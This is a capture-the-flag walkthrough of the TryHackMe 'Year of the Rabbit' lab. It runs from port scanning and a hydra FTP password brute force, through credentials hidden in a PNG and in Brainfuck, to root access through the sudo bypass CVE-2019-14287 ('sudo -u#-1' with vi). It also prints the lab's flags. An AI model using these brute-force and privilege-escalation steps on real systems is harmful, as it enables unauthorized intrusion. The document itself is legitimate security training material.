

# Year of the Rabbit

## Description

Time to enter the warren...

Let's have a nice gentle start to the New Year!
Can you hack into the Year of the Rabbit box without falling down a hole?

## Initial Scan

Let's start with an Nmap scan. The scan reveals three open ports:
* 21 ftp
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web

Let's start with the web service since we havo no creds for other services. The main page is the default page for Apache2, so I ran `gobuster` to find directories:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Year_of_the_Rabbit]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.115.76/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,zip,html
[+] Timeout:                 10s
===============================================================
2021/11/07 03:33:05 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.115.76/assets/]
/index.html           (Status: 200) [Size: 7853]                                 
~~~

We found `/assets`. Let's see what we have there:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Year_of_the_Rabbit]
└─$ curl -s "http://$IP/assets/" | html2text
****** Index of /assets ******
[[ICO]]       Name             Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                    -  
[[VID]]       RickRolled.mp4   2020-01-23 00:34 384M  
[[TXT]]       style.css        2020-01-23 00:34 2.9K  
===========================================================================
     Apache/2.4.10 (Debian) Server at 10.10.115.76 Port 80
~~~

There are two files there. I don't want to get rickrolled (lol), so I checked `style.css` which I usually don't and I'm glad that I did, cuz take a look at this:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Year_of_the_Rabbit]
└─$ curl -s "http://$IP/assets/style.css" | head -n17
 * {
    margin: 0px 0px 0px 0px;
    padding: 0px 0px 0px 0px;
  }

  body, html {
    padding: 3px 3px 3px 3px;

    background-color: #D8DBE2;

    font-family: Verdana, sans-serif;
    font-size: 11pt;
    text-align: center;
  }
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */
~~~

We found a hidden page: `/sup3r_s3cr3t_fl4g.php`. I downloaded it and let's take a look at it:

~~~php
<html>
	<head>
		<title>sup3r_s3cr3t_fl4g</title>
	</head>
	<body>
		<noscript>Love it when people block Javascript... </noscript>
		<noscript>This is happening whether you like it or not... The hint is in the video. If you're stuck here then you're just going to have to bite the bullet! Make sure your audio is turned up! </noscript>
		
		<video controls>
			<source src="/assets/RickRolled.mp4" type="video/mp4">
		</video>
	</body>
</html>
~~~

This page redirects us to a youtube video. I intercepted the request and found a directory which we are redirected from before going to the video:

Let's see what we can find in `/WExYY2Cv-qU`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Year_of_the_Rabbit/files]
└─$ curl -s "http://$IP//WExYY2Cv-qU/" | html2text 
****** Index of /WExYY2Cv-qU ******
[[ICO]]       Name             Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                    -  
[[IMG]]       Hot_Babe.png     2020-01-23 00:34 464K  
===========================================================================
     Apache/2.4.10 (Debian) Server at 10.10.115.76 Port 80
~~~

There is a png file named `Hot_Babe.png`. I downloaded the file to see if I can find anything inside it. I used `strings` command to find the strings inside the file. There is an ftp username and a list of random strings:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Year_of_the_Rabbit/files]
└─$ strings Hot_Babe.png | tail -n84
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u

[REDACTED]
~~~

## FTP

The username is `ftpuser` but the password is one of the strings. I used `hydra` to brute-force the ftp password. Save the strings in a file and start the brute-force attack:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Year_of_the_Rabbit/files]
└─$ hydra -l ftpuser -P ./ftpwordlist.txt ftp://$IP/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-07 04:20:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.115.76:21/
[21][ftp] host: 10.10.115.76   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
~~~

Great! We got the password. Let's log into the ftp service using the creds:
* Username: `ftpuser`
* Password: `5iez1wGXKfPKQ`

There is one file in there named `Eli\'s_Creds.txt`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Year_of_the_Rabbit/files]
└─$ ftp $IP                                                     
Connected to 10.10.115.76.
220 (vsFTPd 3.0.2)
Name (10.10.115.76:user): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
226 Transfer complete.
758 bytes received in 0.00 secs (10.1815 MB/s)
ftp> exit
221 Goodbye.
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Year_of_the_Rabbit/files]
└─$ cat Eli\'s_Creds.txt                          
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
~~~

The content is in `brainfuck language`. I used [this](https://www.dcode.fr/brainfuck-language) website to execute it:

We got creds for the ssh service:
* User: eli
* Password: DSpDiM1wAEwid

## SSH

Now we can connect to the machine via ssh with the creds we have: `eli:DSpDiM1wAEwid`

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Year_of_the_Rabbit/files]
└─$ ssh eli@$IP
eli@10.10.115.76's password: 

1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE

eli@year-of-the-rabbit:~$
~~~

### eli -> gwendoline

Right after loggin in, we get a message for user `Gwendoline` that says there is a message in the "s3cr3t" hiding place. I used `find` command to find it:

~~~
eli@year-of-the-rabbit:~$ find / -name "s3cr3t" 2>/dev/null
/usr/games/s3cr3t
~~~

There is a file in this directory which contains the creds for user `Gwendoline`:

~~~
eli@year-of-the-rabbit:~$ cd /usr/games/s3cr3t
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
~~~

* Username: `gwendoline`
* Password: `MniVCQVhQHUNI`

Now we can switch to this user:

~~~
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ id
uid=1001(gwendoline) gid=1001(gwendoline) groups=1001(gwendoline)
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$
~~~

## User flag

We can find the user flag in `gwendoline`'s home directory:

~~~
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ cd
gwendoline@year-of-the-rabbit:~$ ls
user.txt
gwendoline@year-of-the-rabbit:~$ cat user.txt 
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
~~~

User flag: `THM{1107174691af9ff3681d2b5bdb5740b1589bae53}`

## Going root

Now we need to gain root access in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
~~~

As you can see, we can run `/usr/bin/vi` on `/home/gwendoline/user.txt` which is owned by root, with sudo and no password as any user but `root`. We can spawn a shell using `vi`, but the problem is that we can't run vi as root to do so.

I checked the sudo version and started searching for the vulnerabilities of this version:

~~~
gwendoline@year-of-the-rabbit:~$ sudo -V
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
~~~

After searching for a little while, I found `CVE-2019-14287` which is explained [here](https://access.redhat.com/security/cve/cve-2019-14287):

"A flaw was found in the way sudo implemented running commands with arbitrary user ID. If a sudoers entry is written to allow the attacker to run a command as any user except root, this flaw can be used by the attacker to bypass that restriction."

Let's exploit it. Run the following command to run `vi` as `root`:

~~~
$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
~~~

Now type the following and you'll get a shell as `root`:

~~~
:shell
~~~

As you can see, we are root now:

~~~
root@year-of-the-rabbit:/home/gwendoline# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root Flag

Let's head to `/root` and read the root flag:

~~~
root@year-of-the-rabbit:/home/gwendoline# cd /root
root@year-of-the-rabbit:/root# ls
root.txt
root@year-of-the-rabbit:/root# cat root.txt 
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
~~~

Root flag: `THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )